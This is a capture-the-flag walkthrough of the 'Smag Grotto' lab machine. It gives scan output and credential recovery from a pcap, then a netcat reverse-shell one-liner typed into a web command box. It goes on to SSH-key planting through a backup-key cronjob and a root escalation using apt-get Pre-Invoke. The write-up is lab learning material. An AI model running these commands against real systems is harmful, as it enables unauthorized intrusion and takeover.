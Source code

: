 Walkthrough about Smag Grotto

Jan 23, 2022

---------------------------------------------

We saw the site but there is nothing there, so we have to use nmap to see for opening ports.

```
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp   open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 1.3K  2020-06-05 10:56  admin.php
| 1.5K  2020-06-05 10:45  login.php
| 139K  2020-06-05 10:19  materialize.min.css
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
1073/tcp filtered bridgecontrol
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Then, also use feroxbuster for the directories
```
301        9l       28w      307c http://10.10.1.79/mail
403        9l       28w      275c http://10.10.1.79/server-status
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_10_10_1_79-1642868548.state ...
[#########>----------] - 10m   207271/441090  12m     found:2       errors:34     
[#########>----------] - 10m   103816/220545  159/s   http://10.10.1.79
[#########>----------] - 10m   103453/220545  160/s   http://10.10.1.79/mail
```

After we use the feroxbuster we did see the "/mail" directory.
Then, we go there and see a .pcap file which we can open in the wireshark.
Then, go analyze the port 80 which we can follow through the TCP Stream and then we did see the details like username and pass.
But, we did not yet input in directly into the ssh port.

Instead we did look around in the pcap file and found out the /login.php,
And it the host is "development.smag.thm", so we will put this in our /etc/hosts
```
sudo vim /etc/hosts
(in the lowest part of the file we will insert this.)
10.10.1.79 development.smag.thm
```

Then go visit the site which is "htt://development.smg.thm" and try to put the details we got in the pcap file. 
After that we did see the enter a command section of the website.
Go try put a reverse shell in the input box.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.111 1337 >/tmp/f
```

Then use nc to listen to the port to get the connection from the reverse shell.

```
nc -lvnp 1337
```

After that use linPeas to have a vulnerability scan throughout the system.
And after a few seconds you will see the cronjob that is taking the user's backup SSH key and adding it to the authorised keys.

So, we have to create our own SSH key to replace the user's backup SSH for us to access the user account through ssh port/service.

```
ssh-keygen -o
```

Create a ssh file and name the file like "id_rsa_test"
Then it will create automatically.

```
cat id_rsa_test.pub 
```

Then we will replace now the current user's backup SSH 

```
echo "_____(the SSH key)___" > jake_id_rsa.pub.backup
```

Remember to change the permission of the SSH Key to "chmod 600" because the keys want to be read only and write by the root.

```
ssh -i id_rsa_test jake@10.10.1.79 
```

Then we will get the connection and we will be connected to the server as the user jake

```
ls -la
cat user.txt
```

Then we will use this command to see our commands that we can use as sudo 

```
sudo -l
```

After that we saw the command and search it in the GTFOBins


```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

Then we get the privilege to the root.

